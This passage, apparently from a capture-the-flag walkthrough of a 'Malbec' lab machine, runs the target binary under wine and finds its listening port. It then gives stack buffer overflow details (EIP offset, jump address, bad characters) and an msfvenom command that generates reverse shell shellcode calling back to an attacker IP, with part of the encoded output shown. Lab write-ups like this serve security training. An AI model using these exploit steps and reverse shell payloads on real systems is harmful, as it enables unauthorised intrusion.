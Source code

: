 After installation, we should be able to run the binary with wine. Before we do this, let's check the open ports on our attack machine in case this binary is some type of server software.
```bash 
┌──(kali㉿kali)-[~]
└─$ sudo netstat -tlpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
                                                                                                                                                                                        
```

We have no listening ports which is obviously the best security posture for an attack machine. Let's run the binary.
```bash 
┌──(kali㉿kali)-[~]
└─$ sudo wine malbec.exe                                                                      
[+] Malbec started!
[*] Waiting for incoming connections!
```

Nothing seems to have happened. However, let's check our open ports again:
```bash 
┌──(kali㉿kali)-[~]
└─$ sudo netstat -tlpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:7138            0.0.0.0:*               LISTEN      4851/malbec.exe     
```

This is interesting. We see that the server is now listening for incoming connections on TCP port 7138, which is one of the ports that was open in the initial target scan. We can speculate that this binary is running on the target.
Exploitation
Buffer Overflow Vulnerability

This binary suffers from a stack-based buffer overflow vulnerability. To proceed with the attack, we need to have a working understanding of Windows exploit development basics. The process will include fuzzing, instruction pointer control, stack pointer return address identification, bad character mitigation, etc.

Fortunately for us, ASLR is not enabled on the target system, and the binary was not compiled with DEP. As we develop our proof-of-concept exploit code, we discover the following:

    The instruction pointer (EIP) is overwritten at the offset of 340 bytes.
    To reach our payload, the instruction sequence of PUSH ESP --> RET is located at address 0x41101503.
    The only bad character that could mangle our payload is the null byte (0x00).

Let's create a reverse shell payload to include in our PoC script.
```bash 
┌──(kali㉿kali)-[~]
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.118.5 LPORT=2121 -f py -b "\x00" EXITFUNC=thread
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of py file: 479 bytes
buf =  b""
buf += b"\xbb\xc8\x11\x6c\x9c\xda\xc2\xd9\x74\x24\xf4\x5d\x33"
buf += b"\xc9\xb1\x12\x83\xed\xfc\x31\x5d\x0e\x03\x95\x1f\x8e"
buf += b"\x69\x14\xfb\xb9\x71\x05\xb8\x16\x1c\xab\xb7\x78\x50"
buf += b"\xcd\x0a\xfa\x02\x48\x25\xc4\xe9\xea\x0c\x42\x0b\x82"
```